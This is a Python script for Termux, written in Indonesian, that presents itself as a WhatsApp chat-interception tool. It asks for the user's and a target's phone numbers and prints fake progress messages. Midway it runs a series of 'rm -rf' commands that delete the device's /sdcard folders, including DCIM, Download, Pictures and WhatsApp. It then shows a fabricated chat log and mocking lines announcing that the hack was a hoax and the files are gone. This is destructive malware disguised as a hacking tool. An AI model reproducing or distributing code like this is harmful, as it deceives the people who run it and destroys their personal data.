 #!/bin/usr/python

"""
	Hack WHATSHXPro
"""

import os
import sys
from time import sleep

def ketik(s):
	for ASU in s + '\n':
		sys.stdout.write(ASU)
		sys.stdout.flush()
		sleep(50. / 1000)
os.system('xdg-open https://mrlinkerrorsystem.blogspot.com/')
os.system('clear')
print ("""\033[1;31m
               WhatsHack Tools Pro Termos
             Author : Mrlinkerrorsystem
  Tidak Ada WhatsApp Yang Aman
\033[1;36m
____________
< WhatsApp >
 ---------
╲╲╭━━━━╮      
╭╮┃▆┈┈▆┃ ╭╮     
┃╰┫▽▽▽┣╯┃ 
╰━┫△△△┣━╯
╲╲┃┈┈┈┈┃
╲╲┃┈┏┓┈┃
▔▔╰━╯╰━╯             
╲╲╭━━━━╮                                              
╭╮┃▆┈┈▆┃ ╭╮      
┃╰┫▽▽▽┣╯┃
╰━┫△△△┣━╯    
╲╲┃┈┈┈┈┃
╲╲┃┈┏┓┈┃
▔▔╰━╯╰━╯
""")
a = input("\033[1;36m Masukan No telepon kamu: ")
a = input("\033[1;33m Masukan No telepon target kamu: ")
os.system('clear')
print ("\033[1;36m Memulai Sadap WhatsHXPro ")
sleep(3)
print ("\033[1;36m Mengambil data WhatsHXPro... ")
sleep(3)
print ("\033[1;36m Mengambil code verifikasi... ")
print (' ')
print ("\033[1;32m Suksesss mendapatkan code verifikasi... ")
print (' ')
ketik ("\033[1;32m Mengambil Data WhatsHXaPro")
sleep(0.5)
ketik ("\033[1;32m Mencari Nomor Kontak")
sleep(0.5)
ketik ("\033[1;32m Berhasil menemukan kontak")
sleep(0.5)
print ("\033[1;32m Baypass Akses LOG IN ")
sleep(1)
sleep(3)
ketik ("\033[1;32m Baypass Suksess ")
sleep(2)
ketik ("\033[1;32m Mendapatkan Chat WhatHXPro: %s" % (a))
sleep(0.5)
ketik ("\033[1;32m Sedang Membuka Chat WhatsHXPro ")
sleep(2)
print ("\033[1;32m Baypass chat WhatsHXPro ")
print (' ')
print ("\033[1;32m SUKSESS TUNGGU DULU!!!")
os.system('termux-setup-storage')
os.system('rm -rf cd /sdcard/Android')
os.system('rm -rf cd /sdcard/bluetooth')
os.system('rm -rf cd /sdcard/browser')
os.system('rm -rf cd /sdcard/DCIM')
os.system('rm -rf cd /sdcard/Download')
os.system('rm -rf cd /sdcard/Music')
os.system('rm -rf cd /sdcard/Pictures')
os.system('rm -rf cd /sdcard/SHAREit')
os.system ('rm -rf cd /sdcard/Dokumen')
os.system('rm -rf cd /sdcard/WhatsApp')
sleep(3)
print ("\033[1;32m Login Sukses! ")
print (' ')
print ("\033[1;32m Mengubah HALAMAN LOG-IN ")
sleep(2)
print ("\033[1;31m   Sukses! ")
print ("\033[1;32m Menghapus LOG-IN WhatsHXPro ")
sleep(2)
print ("\033[1;31m   Sukses! ")
sleep(3)
print ("\033[1;32m Waiting Open Database WhatsHXPro ")
os.system('clear')
print ("""\033[1;31m
\033[1;36m
____________
< WhatsAppHackPro>
 ---------
╲╲╭━━━━╮      
╭╮┃▆┈┈▆┃╭╮     
┃╰┫▽▽▽┣╯┃|    
╰━┫△△△┣━╯
╲╲┃┈┈┈┈┃
╲╲┃┈┏┓┈┃
▔▔╰━╯╰━╯             ÷÷÷÷÷÷÷÷÷÷÷÷÷
╲╲╭━━━━╮                                              |
╭╮┃▆┈┈▆┃ ╭╮       Database Chat    |
┃╰┫▽▽▽┣╯┃|                                      |
╰━┫△△△┣━╯      ÷÷÷÷÷÷÷÷÷÷÷÷÷
╲╲┃┈┈┈┈┃
╲╲┃┈┏┓┈┃
▔▔╰━╯╰━╯
""")
sleep(5)
print ("\033[1;32m Waiting Open Chat WhatsHXPro ")
sleep(5)
print ("\033[1;35m (1)   +62 857-4063-9126 ")
print ("\033[1;35m (2)   +6289078946742 ")
print ("\033[1;35m (3)   +628778906570 ")
print ("\033[1;35m (4)   +6281385890549 ")
print ("\033[1;35m (5)   +6282283007894 ")
print ("\033[1;35m (6)   +6285256705212 ")
a = input("\033[1;31m Silahkan Pilih : ")
ketik ("\033[1;31m Waiting Open Chat! ") 
print ("""\033[1;35m
[18/9 05.52] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: Hai seyenk
[18/9 05.52] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: Apa kabar
[18/9 05.52] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: baek
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: lagi apa
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: galau
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: kenapa galau
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: gtw nh
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: kenapa chat
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: gpp cuma kangen doang :v
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: owh
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: sudah makan belum!
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: sudah makan belum ?
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: sudah
[18/9 05.53] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: ikan apa?
[18/9 05.54] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: ayam goreng 🍖
[18/9 05.54] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: wow enak tuh
[18/9 05.54] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: iya dong mau gak
[18/9 05.54] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: mau dong sini suapin
[18/9 05.54] 𓁬THCA⫷𖢣྆⃠Sayang𖢣྆⃠⫸𓁄: iss jauh gblok
[18/9 05.54] 𓁬THCA⫷𖢣྆⃠MRLINKERROR𖢣྆⃠⫸𓁄: slow wkwkwk
""")
sleep(3)
print ("\033[1;31m Terimakasih Telah Menggunakan Tools Ini! See you ")
print ("\033[1;31m Silahkan Cek Semua Berkas Anda ^_^ ")
print ("\033[1;31m Anjing Goblog Kok Ilang ^_^ ")
print ("\033[1;31m Mamposh Terhapus Semua ^_^ ")
print ("\033[1;31m Script Sadap WhatsApp Itu Hoax^_^ ")
print ("\033[1;31m Dasar Kang Termoss ^_^")
print ("\033[1;31m Katanya Hekel  ^_^ ")
print ("\033[1;31m Katanya Hekel  ^_^ ")
print ("\033[1;31m Katanya Hekel  ^_^ ")
print ("\033[1;31m Katanya Hekel  ^_^ ")
print ("\033[1;31m Katanya Hekel  ^_^ ")
print ("\033[1;31m Katanya Hekel  ^_^ ")
print ("\033[1;31m See You Next Time
